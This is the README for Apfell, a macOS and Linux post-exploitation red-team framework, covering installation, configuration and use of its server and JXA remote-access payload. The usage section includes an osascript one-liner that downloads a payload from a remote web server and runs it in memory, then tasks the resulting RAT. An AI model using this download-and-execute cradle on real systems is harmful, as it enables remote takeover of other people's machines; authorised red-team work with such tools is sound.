 # Apfell
A macOS, post-exploit, red teaming framework built with python3 and JavaScript. It's designed to provide a collaborative and user friendly interface for operators, managers, and reporting throughout mac and linux based red teaming. This is a work-in-progress as I have free time, so please bear with me.

## Details
Check out my [blog post](https://its-a-feature.github.io/posts/2018/07/bare-bones-apfell-server-code-release/) on the initial release of the framework and what the bare bones content can do.

## Installation

- Get the code from this github:
```bash
git clone https://github.com/its-a-feature/Apfell
```
- Install and setup the requirements (Note: The Sanic webserver says it only works on Linux):
```bash
# The setup.sh will install postgres and pip3 install the requirements
cd Apfell && chmod +x setup.sh && sudo ./setup.sh && cd ..
```
- Configure the installation in app/\_\_init\_\_.py:
```bash
# -------- CONFIGURE SETTINGS HERE -----------
db_name = 'apfell_db'
db_user = 'apfell_user'
db_pass = 'super_secret_apfell_user_password'
server_ip = '127.0.0.1'  # this will be used by the browser to callback here, edit this!
listen_port = '443'
listen_ip = '0.0.0.0'  # IP to bind to for the server, 0.0.0.0 means all local IPv4 addresses
ssl_cert_path = './app/ssl/apfell-cert.pem'
ssl_key_path = './app/ssl/apfell-ssl.key'
use_ssl = True
```
- There is currently an issue with Sanic and websockets 6/7 (tracked issue, but no pull request yet)
You need to edit Sanic with a slight update (I'm going to make a pull request for Sanic so we don't need to do this, but that'll take a little while). In the meantime, do `sudo find / -type f -name "app.py"` to find the appropriate Sanic file to edit.
In here, find the line that says `protocol = request.transport._protocol` and edit it to be:
```python
if hasattr(request.transport, '_app_protocol'): 
    protocol = request.transport._app_protocol
else: 
    protocol = request.transport._protocol
```
## Usage
- Start the server:
```bash
python3 server.py 
[2018-07-16 14:39:14 -0700] [28381] [INFO] Goin' Fast @ https://0.0.0.0:443
```
By default, the server will bind to 0.0.0.0 on port 443. This is an alias meaning that it will be listening on all IPv4 addresses on the machine. You don't actually browse to https://0.0.0.0:443 in your browser. Instead, you'll browse to either https://localhost:443 if you're on the same machine that's running the server, or you can browse to any of the IPv4 addresses on the machine that's running the server. You could also browse to the IP address you specified in `server_ip = '192.168.0.119'` in the installation section.
- Browse to the server with any modern web browser  
![alt text](https://github.com/its-a-feature/its-a-feature.github.io/raw/master/images/Welcome.JPG)

- Create a new user:  
![alt text](https://github.com/its-a-feature/its-a-feature.github.io/raw/master/images/Register.JPG)

- Create a new payload:  
![alt text](https://github.com/its-a-feature/its-a-feature.github.io/raw/master/images/apfell-create-jxa.JPG)

- Host the new payload:  
![alt text](https://github.com/its-a-feature/its-a-feature.github.io/raw/master/images/web_hosting.JPG)
This will start a python simple web server in the `/tmp` directory on port `8080`.

- Pull down and execute payload in memory:
```bash
osascript -l JavaScript -e "eval(ObjC.unwrap($.NSString.alloc.initWithDataEncoding($.NSData.dataWithContentsOfURL($.NSURL.URLWithString('HTTP://192.168.0.119:8080/apfell-jxa')),$.NSUTF8StringEncoding)));" 
```
- Interact with the new RAT:
![alt text](https://github.com/its-a-feature/its-a-feature.github.io/raw/master/images/apfell-tasking.JPG)

### In-Server Help
Once you've logged into Apfell, you can access some additional help. 
- CommandLines - provides information about how to interact with the RESTful interface via terminal and Curl
- Documentation - will eventually provide a more thorough manual of how Apfell is organized, how to extend it, how logging works, and how to interact with the dashboards
- apfell-jxa help - provides help on the command lines that can be sent to the apfell-jxa RAT, how they work, and their parameters